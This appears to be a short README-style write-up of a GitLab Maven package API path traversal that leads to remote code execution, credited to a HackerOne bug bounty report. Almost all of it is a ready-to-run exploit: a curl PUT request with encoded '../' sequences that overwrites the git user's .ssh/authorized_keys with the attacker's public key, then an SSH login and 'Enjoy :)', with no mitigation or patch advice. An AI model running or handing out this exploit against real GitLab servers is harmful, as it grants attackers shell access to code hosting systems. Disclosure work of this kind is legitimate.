

# ***Path traversal to RCE worth $12000 on GitLab 😳***

### *1. Create project and private token*
### *2. Send the following request*
```
curl -H "Private-Token: $token" http://10.26.0.5/api/v4/projects/2/packages/maven/a%2fb%2fc%2fd%2fe%2ff%2fg%2fh%2fi%2f1/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f.ssh%2fauthorized_keys -XPUT --path-as-is --data-binary @/home/asakawa/.ssh/id_rsa.pub
```
### *3. $ ssh git@10.26.0.5*
### *4. Enjoy :)*

</br>&nbsp;

----
## ***Credit***
Based on [saltyyolk](https://hackerone.com/reports/733072)'s report.

----
## ***Support***
You can Follow [me](https://www.linkedin.com/in/bhavesh-pardhi-/) on LinkedIn or
<br><br>[](https://www.buymeacoffee.com/bhaveshpardhi)
